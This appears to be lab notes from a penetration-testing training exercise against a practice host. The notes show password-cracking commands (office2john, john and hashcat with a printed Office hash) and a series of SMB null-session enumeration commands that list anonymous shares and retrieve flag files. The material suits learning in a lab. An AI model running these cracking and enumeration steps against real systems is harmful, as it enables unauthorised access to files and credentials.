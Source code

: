office2john.py

```bash
john --wordlist=/root/Desktop/wordlists/1000000-password-seclists.txt hash
```

Remove: MS_Word_Document.docx:
```
$office$*2013*100000*256*16*ff2563844faca58a12fc42c5036f9cf8*ffaf52db903dbcb6ac2db4bab6d343ab*c237403ec97e5f68b7be3324a8633c9ff95e0bb44b1efcf798c70271a54336a2
hashcat -a 0 -m 9600 --status hash /root/Desktop/wordlists/1000000-password-seclists.txt --force
```

------------

**Null Session**
```bash
nmap -sS -sV demo.ine.local
nmap -sU --top-ports 25 demo.ine.local
nmap -sU -sV -p137 demo.ine.local
nmap -sU -sV -p138 demo.ine.local
smbclient -L demo.ine.local -N
smbclient -L demo.ine.local
nmblookup -A demo.ine.local
enum4linux -a demo.ine.local
smbmap -H demo.ine.local
enum4linux -d -S demo.ine.local
smbclient //demo.ine.local/public -N
ls
cd .hidden\
ls
get flag_1
cat flag_1
get flag_1 -
enum4linux -U demo.ine.local
smbmap -H demo.ine.local
smbclient //demo.ine.local/raymond -N
smbclient //demo.ine.local/michael -N
ls
cd dir\
ls
cd flag_2\
ls
get -
```
```bash
enum4linux -s ~/Desktop/wordlists/100-common-passwords.txt demo.ine.local
shadow1 EXISTS, Allows access using username: '', password: ''
smbclient //demo.ine.local/shadow1 -N
ls
get flag_3 -
```

------------

